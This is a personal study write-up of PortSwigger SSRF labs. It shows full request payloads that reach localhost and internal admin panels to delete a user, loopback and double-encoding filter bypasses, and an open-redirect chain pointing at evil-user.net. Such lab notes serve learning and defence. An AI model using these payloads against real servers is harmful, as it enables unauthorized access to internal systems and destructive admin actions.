 # 🫁 Server-side request forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's say we have a _check stock_ option on the website that makes this request:

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

If we change it to this:

```
stockApi=http://localhost/admin
```

It would fetch the content of admin and return it to the user if misconfigured because the application may trust a request that comes from a local machine because of misconfigured trust relationships

### Lab: Basic SSRF against the local server

There is a check stock on all the different products, if we capture a request we get this:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We change the request to :

```
http://localhost/admin
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>don't forget to URL encode it</p></figcaption></figure>

and in the response we have access to the admin panel of the application and the request needed to delete a user:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To achieve this challenge, the final request will be:

```
stockApi=http%3a//localhost/admin/delete?username=carlos
```

#### SSRF attacks against other back-end systems

If the IP address is a non-routable private IP address, we could think that, since the backend server thinks he's protected by the network topology, the security is weaker and lets anyone able to interact with it admin privileges

### Lab: Basic SSRF against another back-end system

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we fetch the request and send it to intruder:

I'll cheat a bit and say we probably have the same request in the first exercise for this exercise:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We launch the attack and wait:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre><code><strong>stockApi=http%3a//192.168.0.49%3a8080/admin/delete%3fusername%3dcarlos
</strong></code></pre>

we don't forget to URL encode it and then forward it, and bingo the lab is solved

**SSRF with blacklisted input filters:**

To bypass the fact that some applications block `127.0.0.1` and `localhost`, or sensitive URLs like `/admin` here are 2 ways that i think are very nice to bypass it:

* Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.\*

1. **Decimal Representation (2130706433)**:
   * IP addresses are typically represented in a dotted decimal format, where each octet is represented by a decimal number ranging from 0 to 255. However, internally, IP addresses are stored as binary numbers.
   * The decimal representation of an IP address can be converted to its binary form. In the case of 127.0.0.1, its binary representation is 01111111000000000000000000000001.
   * Using the decimal representation (2130706433) of the loopback address (127.0.0.1) might bypass filters that specifically look for the dotted decimal format.
2. **Octal Representation (017700000001)**:
   * In some programming languages like C and Python, you can represent numbers in octal notation by prefixing them with '0'.
   * The octal representation of 127.0.0.1 is 017700000001, where each octet is represented in octal form.
   * This representation could be used to evade filters that only check for the decimal or dotted decimal format of IP addresses.
3. **Shortened Representation (127.1)**:
   * This representation simply omits the trailing zeroes in the dotted decimal format. It's still valid and points to the same IP address (127.0.0.1).
     * Filters or security mechanisms that only look for specific patterns, such as the exact match of "127.0.0.1", might overlook variations like "127.1", allowing attackers to bypass them.

* Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.

### Lab: SSRF with blacklist-based input filter

So we start by capturing the request of the check stock button and try to input a localhost bypass but fail:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>note: URL encoded</p></figcaption></figure>

Ok so we are able to bypass the input restriction with the shortened version of 127.0.0.1:

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but /admin did not work, so i tried encoding a few times and it worked:

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

1. **Encoded URL**: `http%3a//127.1/%2561dmin`
   * `%3a` represents the colon character `:` in URL encoding.
   * `%25` represents the percent character `%` itself. So, `%2561` actually decodes to `%61`, which represents the lowercase letter `a` in ASCII.
2. **Decoded URL**: `http://127.1/%61dmin`
   * The URL now reads `http://127.1/admin`.

So now i simply look at the admin page and look for the Carlos delete user button and send the request to solve the lab:

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Open redirection vulnerability**

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Open redirection vulnerability occurs when a web application redirects users to a URL specified by user-supplied input, without proper validation. Attackers can exploit this vulnerability to redirect users to malicious websites, phishing pages, or other harmful destinations.

Let's say we have an application that has this vuln with the following URL:

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

that obviously returns to `http://evil-user.net`

We can leverage this to bypass the URL filter and exploit SSRF:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

{% hint style="info" %}
This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection.
{% endhint %}

### Lab: SSRF with filter bypass via open redirection vulnerability

I got a bit stuck on the initial foothold of the machine, then I saw this odd "next item" button that could mean a redirection to another page:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Okay, so I found this redirection error:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems to redirect just fine so we go back on the check stock API and throw in the inital payload to access the admin page:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we're able to access the page to delete user:

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**How to find blind SSRF?**

The most reliable way to detect blind SSRF vulnerabilities is using out-of-band (OAST) techniques

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

### Lab: Blind SSRF with out-of-band detection

I don't have burp pro unfortunately, so I can't do it

{% embed url="https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-blind-ssrf-vulnerabilities/ssrf/blind/lab-out-of-band-detection" %}
